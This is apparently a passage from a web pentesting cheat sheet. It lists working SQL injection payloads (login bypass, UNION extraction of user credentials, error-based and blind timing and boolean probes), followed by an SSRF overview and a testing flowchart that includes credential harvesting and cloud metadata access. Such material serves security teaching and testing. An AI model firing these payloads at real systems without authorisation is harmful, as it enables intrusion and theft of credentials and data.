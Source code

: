 ### Common SQL Injection Payloads

```sql
-- Basic Authentication Bypass
' OR '1'='1' --
' OR 1=1 --
admin'--

-- Union-based Injection
' UNION SELECT 1,2,3,4 --
' UNION SELECT null,username,password,null FROM users --

-- Error-based Injection
' AND (SELECT COUNT(*) FROM information_schema.tables) --
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --

-- Time-based Blind Injection
' AND (SELECT SLEEP(5)) --
'; WAITFOR DELAY '00:00:05' --

-- Boolean-based Blind Injection
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

---

## 🌐 SSRF (Server-Side Request Forgery)

### Overview
SSRF vulnerabilities allow attackers to make requests from the vulnerable server to internal or external resources.

### SSRF Attack Flowchart

```mermaid
flowchart TD
    A[Start SSRF Testing] --> B[Identify URL Parameters]
    B --> C[Test Internal IP Ranges]
    C --> D{Internal Access?}
    D -->|Yes| E[Enumerate Internal Services]
    D -->|No| F[Test Localhost Variations]
    F --> G{Localhost Access?}
    G -->|Yes| E
    G -->|No| H[Test Protocol Variations]
    H --> I{Different Protocols Work?}
    I -->|Yes| J[Protocol-specific Exploitation]
    I -->|No| K[Test URL Encoding]
    K --> L{Encoding Bypass?}
    L -->|Yes| E
    L -->|No| M[Test DNS Rebinding]
    E --> N[Port Scanning]
    N --> O[Service Enumeration]
    O --> P[Credential Harvesting]
    P --> Q[Cloud Metadata Access]
    Q --> R[Impact Assessment]
    J --> R
    M --> S{DNS Rebinding Works?}
    S -->|Yes| R
    S -->|No| T[Document Findings]
    R --> U[Report Generation]
    T --> U
```

